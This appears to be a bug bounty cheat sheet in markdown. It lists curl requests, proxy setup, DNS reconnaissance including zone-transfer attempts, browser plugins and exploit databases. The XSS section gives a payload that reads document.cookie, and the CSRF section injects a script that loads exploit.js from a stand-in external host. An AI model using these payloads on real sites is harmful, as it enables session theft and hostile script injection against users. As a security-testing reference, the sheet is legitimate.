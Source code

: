 # Bug Bounty

Overview
---------
1. - [Web Requests](#1---web-requests)
2. - [Web Proxies](#2---web-proxies)
3. - [Online Resources](#3---online-resources)
4. - [Browser Plugins](#4---browser-plugins)
5. - [Web Reconnaissance](#5---web-reconnaissance)
6. - [Sensitive Data Exposure](#6---sensitive-data-exposure)
7. - [HTML Injection](#7---html-injection)
8. - [Cross-Site Scripting (XSS)](#8---cross-site-scripting-xss)
9. - [Cross-Site Request Forgery (CSRF)](#9---cross-site-request-forgery-csrf)
10. - [Exploit Research](#10---exploit-research)

   
#1. - Web Requests
-----------------------------------------

- Curl

```
$ curl -v <URL>
$ curl -I <URL>
$ curl -i <URL>
$ curl -v -X OPTIONS <URL>
$ curl -u admin:admin <URL>
$ curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' <URL>
$ curl <URL>/search.php?search=test
$ curl -X POST -d 'username=admin&password=admin' <URL>
$ curl -X POST -d '{"search":"test"}' -H 'Content-Type: application/json' <URL>
$ curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' <URL>
$ curl -H 'Cookie: PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' <URL>
```

- DevTools

```
F12
```

#2. - Web Proxies
-----------------------------------------

- Burp Suite

```
Proxy -> Intercept -> Open Browser
OR
Settings -> Network Settings -> Settings -> Select Manual proxy configuration -> Enter IP address and port of our proxy -> Select Use this proxy server for all protocols 
```

- ZAP Proxy

```
Firefox Icon
```

- Proxychains

```
Edit /etc/proxychains4.conf
$ proxychains <command>
```

#3. - Online Resources
-----------------------------------------

- OWASP Web Security Testing Guide

```
https://owasp.org/www-project-web-security-testing-guide/
https://github.com/OWASP/wstg/tree/master/document/4-Web_Application_Security_Testing
```

- HTML - CSS - JS Online Editor

```
https://html-css-js.com/
```

- HTML WYSIWYG Online Editor

```
https://htmlg.com/html-editor/
```

- JSFiddle Code Playground

```
https://jsfiddle.net/
```

#4. - Browser Plugins
-----------------------------------------

- Wappalyzer: Website technology analyser

```
https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/
```

- Cookie Editor: edit cookies

```
https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/
```

- FoxyProxy: proxy management

```
https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/
```

#5. - Web Reconnaissance
-----------------------------------------

- Whois

```
$ whois <Domain Name>
https://whoisfreaks.com/
```

- DNS

```
Edit /etc/hosts OR C:\Windows\System32\drivers\etc\hosts
$ dig <Domain Name>
$ dig <Domain Name> NS
$ dig <Domain Name> MS
$ dig @1.1.1.1 <Domain Name>
$ dig +trace <Domain Name>
$ dig -x <IP address>
$ dig +short <Domain Name>
$ dig <Domain Name> ANY
$ dig axfr @<Name Server> <Domain Name>
C:\> nslookup
$ host <IP address/Domain Name>
$ host -t ns <Domain Name>
$ host -t mx <Domain Name>
$ host -t txt <Domain Name>
$ host -l <Domain Name> <DNS server name/IP address>
$ dnsenum <Domain Name>
$ dnsenum --enum <Domain Name> -f <wordlist> -r
$ dnsrecon -d <Domain Name> -t axfr
$ fierce
$ theHarvester -d <Domain Name> -b google > google.txt
$ amass
$ assetfinder
$ puredns
$ gobuster
$ Feroxbuster
$ ffuf
```

#6. - Sensitive Data Exposure
-----------------------------------------

- Source Code

```
Right-click -> View page source
OR
CTRL + U
```

#7. - HTML Injection
-----------------------------------------

- Hyperlink

```
<a href="http://www.google.com">Click Me</a>
```

#8. - Cross-Site Scripting (XSS)
-----------------------------------------

*Reflected XSS	= Occurs when user input is displayed on the page after processing (e.g., search result or error message).*

*Stored XSS = Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).*

*DOM XSS	= Occurs when user input is directly shown in the browser and is written to an HTML DOM object (e.g., vulnerable username or page title).*

- DOM XSS

```
#"><img src=/ onerror=alert(document.cookie)>
```

#9. - Cross-Site Request Forgery (CSRF)
-----------------------------------------

- Password Change

```
"><script src=//www.example.com/exploit.js></script>
```

#10. - Exploit Research
-----------------------------------------

- CVEdetails

```
https://www.cvedetails.com/
```

- Exploit DB

```
https://www.exploit-db.com/
```

- Vulners

```
https://vulners.com/
```

- Rapid7

```
https://www.rapid7.com/db/
```

- Vulnerability Lab

```
https://www.vulnerability-lab.com/
```

- Packet Storm Security

```
https://packetstormsecurity.com/
```
